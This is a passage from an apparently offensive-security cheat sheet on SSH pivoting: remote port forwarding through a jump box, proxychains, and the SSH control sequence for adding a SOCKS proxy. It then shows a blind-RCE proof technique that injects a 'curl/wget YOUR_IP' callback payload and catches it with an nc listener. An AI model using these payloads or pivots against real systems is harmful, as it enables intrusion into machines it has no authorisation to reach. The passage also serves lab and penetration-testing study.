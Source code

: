 #### 7. Dynamic remote port forward, use one localhost port to access all remote host ports
```bash
#execute on jump box
ssh -Nf -R Kali_proxy_port(1080) kali@KALI_IP
```

#### 8. When need to access a host via proxy
```bash
# Make sure you have your proxy running correctly
proxychains4 -q YOUR_COMMAND
```

#### SSH control sequence
The SSH control sequence allows you to 
change SSH options after eastablished the connection. 
It is useful if you want to add new port forwarding options in current SSH session.
See this [blog](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/) for details
```bash
# execute in a terminal
# make sure you pressed enter for a new line
# then press ~C, it won't be shown in the terminal but you should see
ssh >
# Then type in your options, e.g. adding a new SOCKS proxy
ssh > -D 1337
# Then press enter again to add the option
```

## 7. Misc
Things that are important concept or PoC techniques but don't related the above categories/are generic 

### RCE PoC
sometimes the website is vulnerable to RCE
but the execution output does not show up on the web page.
We need a way to proof that the RCE is successful to continue on the exploit.
There are multiple ways to do so:

1. If you don't have access to machine (most of the scenario):

    You can PoC with two ways
    
    The first way is setup a nc listener at port 80
    then put your payload as:
    ```bash
    curl/wget YOUR_IP
    ```
    A valid respond should come in:
    ```bash
    # nc -lvnp 80
    listening on [any] 80 ...
    connect to [YOUR_IP] from (UNKNOWN) [TARGET_IP] 50558
    GET / HTTP/1.1
    Host: YOUR_IP
    User-Agent: curl/7.88.1
    Accept: */*
    ```
